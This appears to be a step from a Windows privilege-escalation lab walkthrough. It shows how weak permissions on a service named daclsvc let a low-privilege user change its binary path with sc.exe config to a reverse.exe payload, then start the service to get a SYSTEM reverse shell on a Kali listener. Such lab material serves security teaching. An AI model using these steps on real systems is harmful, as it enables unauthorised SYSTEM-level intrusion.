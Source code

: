 # Task 3: Checking User Permissions on the **daclsvc** Service 🔍🔑

---

## Description
In this task, you will use `accesschk.exe` to check the permissions of the **"user"** account on the **"daclsvc"** service.

---

### Checking Permissions:
1. Run the following command:  
   `"C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc"`  
   This will reveal that the **"user"** account has permission to modify the service configuration (SERVICE_CHANGE_CONFIG). ⚙️

---

### Querying Service Information:
2. Query the service information to confirm that it runs with SYSTEM privileges (SERVICE_START_NAME):  
   `"sc.exe qc daclsvc"`

---

### Modifying Service Configuration:
3. Change the service configuration by setting the `BINARY_PATH_NAME` (binpath) to the `reverse.exe` executable you created earlier:  
   `sc.exe config daclsvc binpath= "C:\PrivEsc\reverse.exe"`

---

### Triggering the Reverse Shell:
4. Set up a listener on Kali, and then start the service to trigger the reverse shell with SYSTEM privileges:  
   `"net start daclsvc"`

---

### Important! ⚠️
These steps demonstrate how to gain privileged shells by exploiting misconfigurations in service permissions. Always exercise caution when working with system privileges! 🔒
